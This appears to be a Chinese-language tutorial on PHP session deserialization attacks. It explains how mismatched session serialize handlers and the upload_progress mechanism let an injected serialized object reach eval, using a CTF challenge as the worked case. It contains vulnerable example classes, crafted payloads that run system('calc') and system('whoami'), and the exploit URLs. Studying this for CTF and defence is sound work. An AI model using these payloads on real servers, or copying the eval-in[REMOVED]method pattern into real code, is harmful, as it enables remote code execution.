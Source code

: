 # 一、PHP Session机制

当通过`session_start()`开启会话后，PHP根据客户端的PHPSESSID获取当前会话数据
（即session文件，文件名为sess_PHPSESSID值，位于temp文件夹下）
![image-20221018195513630](../images/image-20221018195513630.png)

随便打开一个看看，会发现里面其实是序列化的值
PHP会自动解析session文件的内容，并填充到`$_SESSION`超级全局变量中。

若客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

PHP解析session文件的过程，实际上就是反序列化的过程

对此，PHP有三种**session处理引擎**：php、php_serialize、php_binary

```php
<?php
//ini_set("session.serialize_handler", "php");
//ini_set("session.serialize_handler", "php_serialize");
//ini_set("session.serialize_handler", "php_binary");
session_start();
$_SESSION['doge'] = "Taco";
var_dump($_SESSION);
```

> php:  doge|s:4:"Taco";       // 键名|after serialize
>
> php_serialize:  a:1:{s:4:"doge";s:4:"Taco";}       // array after serialize
>
> php_binary:  <0x04>doges:4:"Taco";   // 键名长度对应的ASCII字符+键名s+after serialize

`php_ini`中可以设置`session.serialize_handler`
PHPINFO可以查看
![image-20221018202001193](../images/image-20221018202001193.png)

# 二、session引擎利用

```php
<?php
// test.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
$a = $_SESSION['hack'];
var_dump($a);
unserialize($a);
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

构造payload

```php
<?php
class BackDoor {
    public $cmd="system('calc');";
}
echo serialize(new BackDoor());
// O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}
```

接着访问`/fun.php?hack=O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}`
序列化字符串被记录到session文件中。

![image-20221018203905762](../images/image-20221018203905762.png)

接着访问test.php，`$_SESSION['hack']`被取出进行反序列化，执行`__wakeup`、getshell

上面的案例中，比较鸡肋的地方就是需要有明确的`unserialize($a)`
为什么呢？session引擎自动反序列化的确是有的，但我们传入的序列化字符串是作为`string`反序列化的，而不是本身序列化字符串的反序列化（说得可能有点绕）

看看下面的例子，当两个php文件使用不同的session引擎，会碰撞出什么火花

```php
<?php
// test.php
ini_set("session.serialize_handler", "php");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

上面提到了session引擎中，`php引擎`以`|`作为键名和序列化字符串的分界

而`php_serialize引擎`处理后的就是序列化的`$_SESSION`数组

构造恶意序列化字符串

```php
<?php
class BackDoor {
    public $cmd="phpinfo();";
}
echo serialize(new BackDoor());
// |O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}
// 前面加了个竖线|
```

访问`/fun.php?hack=|O:8:%22BackDoor%22:1:{s:3:%22cmd%22;s:10:%22phpinfo();%22;}`

得到的session文件内容如下：
`a:1:{s:4:"hack";s:48:"|O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}";}`

接着访问`test.php`，成功执行`phpinfo`
由于其使用`php引擎`，`竖线|`左边变成键名，右边变成序列化字符串，引擎会自动将其反序列化。

# 三、upload_process机制

上面两个案例中，服务端Session中存储了我们传入的值`$_SESSION['hack']=$_GET['hack'];`

若程序中没有出现上面类似的代码，是不是没办法反序列化了？

其实php存在一个`upload_process`机制，会自动在$_SESSION中创建一个键值对

![image-20221018212719363](../images/image-20221018212719363.png)

感觉就是通过这个机制来做出前端那种**上传进度条**的效果

需要在php.ini配置

> session.upload_progress.enabled=On
>
> session.upload_progress.cleanup=Off  // 防止把生成的$_SESSION中的键值对给清理掉

我们需要先上传文件，同时POST一个与`session.upload_process.name`的同名变量

直接看一道经典的CTF题

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('__FILE__'));
}
```

访问`http://127.0.0.1/test/test.php?phpinfo`

![image-20221018222742543](../images/image-20221018222742543.png)

构造payload

```php
<?php
class OowoO
{
    public $mdzz="system('whoami');";
}
$a = new OowoO();
echo serialize($a);
// O:5:"OowoO":1:{s:4:"mdzz";s:17:"system('whoami');";}
```

编写上传文件的表单

```html
<form action="http://127.0.0.1/test/test.php" method="post" enctype="multipart/form-data">
    <input type="file" name="myFile" />
    <input type="submit" value="提交" />
</form>
```

![image-20221018224053103](../images/image-20221018224053103.png)

此时再看看session文件

`a:1:{s:22:"upload_progress_aaaaaa";a:5:{s:10:"start_time";i:1666103954;s:14:"content_length";i:431;s:15:"bytes_processed";i:431;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:6:"myFile";s:4:"name";s:53:"|O:5:"OowoO":1:{s:4:"mdzz";s:17:"system("whoami");";}`

由于使用的是`php-session引擎`，将`竖线|`右边的值自动反序列化
